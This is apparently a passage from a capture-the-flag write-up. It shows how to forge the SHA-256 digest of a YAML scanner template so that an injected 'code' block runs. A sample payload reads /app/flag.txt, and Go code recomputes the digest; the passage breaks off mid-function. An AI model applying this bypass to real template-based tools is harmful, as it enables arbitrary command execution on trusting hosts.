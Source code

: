 Basically, in `utils.VerifyDigest()` the function reads the digest included in the YAML file and stores it in the `firstDigest` variable. Then, it removes the digest from the file content using the `RemoveDigestComment()` function, after that normalizes the content by removing spaces with the `NormalizeContent()` function, and computes its SHA-256 hash. This computed hash is then verified against `firstDigest`. If they match, the template is executed.

So, we can simply recreate Digest implementation to inject arbitrary command to `code` block.

yaml Payload:

```yaml
name: Code Execution Test
description: A template for testing code execution within the template.
type: http
requests:
  - method: GET
    path:
      - "/test"
    matchers:
      - type: status
        status:
          - 200
code: cat /app/flag.txt
```

Digest implementation in Go:

```go
package main

import (
	"crypto/sha256"
	"fmt"
	"io/ioutil"
	"os"
	"log"
	"strings"

	"gopkg.in/yaml.v3"
)

func main() {

	filename := "../req.yaml"

	file, err := os.Open(filename)
	if err != nil {
		log.Fatal("Gagal membuka file:", err)
	}
	defer file.Close()

	content, err := ioutil.ReadAll(file)
	if err != nil {
		log.Fatal("Gagal membaca file:", err)
	}

	normalizedContent := NormalizeContent(string(content))
	hash := sha256.Sum256([]byte(normalizedContent))
	hexHash := fmt.Sprintf("%x", hash)
	// fmt.Println(normalizedContent)
	fmt.Println(hexHash)
}

func NormalizeContent(content string) string {
	var yamlContent interface{}
	err := yaml.Unmarshal([]byte(content), &yamlContent)
```